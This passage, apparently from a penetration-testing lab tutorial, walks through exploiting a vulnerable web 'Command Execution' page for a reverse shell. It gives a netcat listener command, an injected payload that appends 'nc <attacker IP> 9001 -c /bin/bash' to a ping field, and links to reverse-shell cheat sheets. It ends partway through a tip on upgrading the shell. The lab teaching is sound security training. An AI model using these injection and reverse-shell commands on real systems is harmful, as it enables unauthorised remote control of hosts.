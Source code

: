 The most basic listener uses the common Linux Netcat utility. To exploit this
page for a remote shell, on the attacker, perform these actions:

### Step 1 - set up a listener on the attacker
```bash
# set up listener
nc -lvnp 9001
```

Optional: Research what each of these flags mean.  Can you use any port on the
attacker machine?  Why or why not?

### Step 2 - exploit RCE to initiate the reverse shell

In your browser on the "Command Execution" vulnerability page, enter this in
the field and press submit. **NOTE**: be sure to replace the IP address with
your attacker's IP address, and the port (9001) with the port you used to set
up your listener in Step 1.

```
8.8.8.8; nc 172.16.0.9 9001 -c /bin/bash
<ping IP>; nc <attacker IP> <attacker port> -c /bin/bash
```

This breaks down as follows:

- `8.8.8.8`: the IP address to send to the underlying `ping` command
- `; nc 172.16.0.9 9001 -c /bin/bash`: the _injected_ reverse shell payload

The payload we're using here is a netcat reverse shell.  This is just one type
of reverse shell.  There are lots of online resources for generating reverse
shells.  There are tons of resources online for reverse shells, but two worth
bookmarking are listed below.

- [revshells.com](https://www.revshells.com/)
- [Pentest Monkey Revshell Cheat
  Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


## Indicators of success

The most obvious indicator of success is you will see a "Received connection
from" message in your listener.

Another indicator is that the web page you exploited will "hang". That is,
normally you'd get the output of the `ping` command and a chance to test
another address.  When the reverse shell is successful, the web page doesn't do
this, but might just look like it's loading and loading.  This is a good sign.

### Protip: upgrading the shell

Reverse shells are useful, but they have some limitations.  For example, the
key combination \<Ctrl-C\> is a very common way to terminate a command in the
shell.  But, if you try this key combination in the reverse shell, you'll kill
the shell and have to reestablish that connection, which can sometimes be very
cumbersome.
